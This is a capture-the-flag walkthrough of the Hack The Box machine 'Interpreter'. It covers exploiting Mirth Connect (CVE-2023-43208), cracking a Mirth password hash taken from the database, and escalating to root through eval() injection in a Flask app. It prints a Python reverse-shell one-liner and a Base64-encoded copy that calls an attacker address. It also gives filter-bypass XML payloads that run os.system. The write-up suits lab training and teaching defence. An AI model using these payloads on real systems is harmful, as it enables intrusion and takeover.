




Summary
Machine Overview
Interpreter is a medium-difficulty Linux machine on Hack The Box that focuses on exploiting a vulnerable Mirth Connect instance and analyzing insecure Python code. Initial access is obtained through a known Mirth Connect remote code execution vulnerability, while privilege escalation involves abusing an unsafe use of eval() within a custom Flask application running as root.
Pentesting Process
Service Enumeration
The assessment began with a comprehensive service enumeration using Nmap to identify exposed services and their versions.
nmap -sC -sV 10.129.7.73
The scan identified three accessible services:
Nmap scan report for 10.129.7.73
Host is up (0.041s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
80/tcp open http
443/tcp open ssl/https
To simplify the assessment process, we mapped the target IP address to the domain name interpreter.htb by adding an entry to the /etc/hosts file.
Web Enumeration
The web server hosts a Mirth Connect instance:
Downloading the JNLP launcher file exposes the version of the Mirth Connect instance.
<application-desc main-class="com.mirth.connect.client.ui.Mirth">
<argument>https://10.129.7.73:443</argument>
<argument>4.4.0</argument>
</application-desc>
The target is running Mirth Connect 4.4.0 over HTTPS.
Initial Access
Mirth Connect 4.4.0 is vulnerable to a remote code execution (RCE) vulnerability identified as CVE-2023–43208.
A public proof-of-concept exploit is available and can be used to obtain initial access to the target system [1].
python CVE-2023-43208.py -u https://interpreter.htb -lh <ATTACKER_IP> -lp <ATTACKER_PORT>

The initial shell was upgraded to a fully interactive TTY using Python.
python3 -c 'import pty; pty.spawn("/bin/bash")'

Database Enumeration
Following initial access, local enumeration revealed configuration files containing database connection details.
The file /usr/local/mirthconnect/conf/mirth.properties contains credentials for the backend MariaDB database.
cat /usr/local/mirthconnect/conf/mirth.properties
# options: derby, mysql, postgres, oracle, sqlserver
database = mysql
database.url = jdbc:mariadb://localhost:3306/mc_bdd_prod
# database credentials
database.username = mirthdb
database.password = MirthPass123!
These credentials provide direct access to the Mirth database.
mysql -h 127.0.0.1 -u mirthdb -p'MirthPass123!' mc_bdd_prod
Database enumeration revealed the following user account:
select id, username from PERSON;
+----+----------+
| id | username |
+----+----------+
| 2 | sedric |
+----+----------+
1 row in set (0.001 sec)
Database enumeration revealed a user account named sedric. The corresponding password hash was extracted from the database.
select * from PERSON_PASSWORD;
+-----------+----------------------------------------------------------+---------------------+
| PERSON_ID | PASSWORD | PASSWORD_DATE |
+-----------+----------------------------------------------------------+---------------------+
| 2 | u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w== | 2025-09-19 09:22:28 |
+-----------+----------------------------------------------------------+---------------------+
1 row in set (0.001 sec)
The extracted hash was then analyzed and prepared for offline cracking.
Mirth passwords are stored using a Base64-encoded salted PBKDF2WithHmacSHA256 hash format. [2]
Hashcat can crack these hashes. Before attempting to crack the hash, we first need to understand its structure.
The hash structure is as follows:
Hash = Base64(Salt [8 bytes] + SHA256 hash [32 bytes])
The hash was decoded to separate the embedded salt and digest values.
- Salt
- Hex: bbff8b0413949da7
- Base64: u/+LBBOUnac=
- SHA256 Hash
- Hex: 62c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb
- Base64: YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=
Hashcat expects the hash in the following format [3]:
sha256:<iteration count>:<base64 salt>:<base64 digest>
The iteration count represents the number of times the hashing function is applied. The recommended value for PBKDF2WithHmacSHA256 is 600,000[4]. This value was used during the Hashcat cracking process.
The hash was reformatted for Hashcat and cracked using the RockYou wordlist:
hashcat -m 10900 'sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=' /usr/share/wordlists/rockyou.txt
The password was successfully recovered as snowflake1.
The recovered credentials provided SSH access as the user sedric.
Post-Exploitation
After obtaining SSH access, local enumeration was performed to identify privilege escalation opportunities.
Process Discovery
Reviewing running processes revealed a custom Python application executing with root privileges.
ps -aux
root 3550 0.0 0.8 39872 32144 ? Ss Feb27 0:08 /usr/bin/python3 /usr/local/bin/notif.py
The process corresponds to a Flask application listening on 127.0.0.1:54321 and running with root privileges. Since the service is only accessible locally, SSH port forwarding was used to access it for further analysis
ssh sedric@interpreter.htb -L 54321:127.0.0.1:54321
Python Application Analysis
The application accepts XML patient records through the /addPatient endpoint and generates notifications, which are then written to a file on the system.
@app.route("/addPatient", methods=["POST"])
def receive():
if request.remote_addr != "127.0.0.1":
abort(403)
try:
xml_text = request.data.decode()
xml_root = ET.fromstring(xml_text)
except ET.ParseError:
return "XML ERROR\n", 400
patient = xml_root if xml_root.tag=="patient" else xml_root.find("patient")
if patient is None:
return "No
The application filters patients data using a regular expression.
def template(first, last, sender, ts, dob, gender):
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
for s in [first, last, sender, ts, dob, gender]:
if not pattern.fullmatch(s):
return "[INVALID_INPUT]"
# DOB format is DD/MM/YYYY
try:
year_of_birth = int(dob.split('/')[-1])
if year_of_birth < 1900 or year_of_birth > datetime.now().year:
return "[INVALID_DOB]"
except:
return "[INVALID_DOB]"
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
try:
return eval(f"f'''{template}'''")
except Exception as e:
return f"[EVAL_ERROR] {e}"
eval() Injection
User-controlled data is embedded into a Python f-string that is evaluated using eval().
Expressions enclosed within curly braces inside an f-string are evaluated as Python code. As a result, any injected Python expression enclosed within curly braces will be executed.
The application implements some restrictions on the input data. It uses a regular expression to validate the input.
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
Although input validation is present, the restrictions can be bypassed by constructing disallowed characters dynamically during evaluation. For example, strings containing space character is not allowed. We can use chr(32) to replace the space character, and eval() will interpret the expression and replace it with an actual space character.
'test 1234' --bypass_filter--> 'test'+chr(32)+'1234' --eval()--> 'test 1234'
Privilege Escalation
Command Execution
We send the following xml data to the server in a POST request to the /addPatient endpoint:
<patient>
<firstname>ys4b</firstname>
<lastname>{__import__('os').system('touch'+chr(32)+'/tmp/test1245')}</lastname>
<sender_app>ys4b_app</sender_app>
<timestamp>20260101_000000</timestamp>
<birth_date>01/01/1912</birth_date>
<gender>Male</gender>
</patient>
This payload results in the execution of the command __import__('os').system('touch /tmp/test1245'), which creates the file /tmp/test1245.
The file was successfully created, confirming arbitrary command execution.

Root Shell
After confirming command execution, a reverse shell payload was prepared to obtain a root shell.
The payload is:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
To create the file on the target machine, we reused the same technique as before. To bypass the filter, we encoded the payload in Base64.
<patient>
<firstname>ys4b</firstname>
<lastname>{'echo'+chr(32)+'cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjY2Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw=='+chr(124)+'base64'+chr(32)+chr(45)+'d'+chr(62)+'/tmp/exploit.sh'}</lastname>
<sender_app>ys4b_app</sender_app>
<timestamp>20260101_000000</timestamp>
<birth_date>01/01/1912</birth_date>
<gender>Male</gender>
</patient>
The payload was successfully written to /tmp/exploit.sh.
To execute the script, we sent another POST request containing the following XML payload:
<patient>
<firstname>ys4b</firstname>
<lastname>{__import__('os').system('/bin/bash'+chr(32)+'/tmp/exploit.sh')}</lastname>
<sender_app>ys4b_app</sender_app>
<timestamp>20260101_000000</timestamp>
<birth_date>01/01/1912</birth_date>
<gender>Male</gender>
</patient>
Executing the payload resulted in a reverse shell running with root privileges.

Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade the Mirth Connect instance to version 4.4.1 or later
- Implement proper input validation and avoid the use of
eval()on user-controlled data in thenotify.pyapplication.
References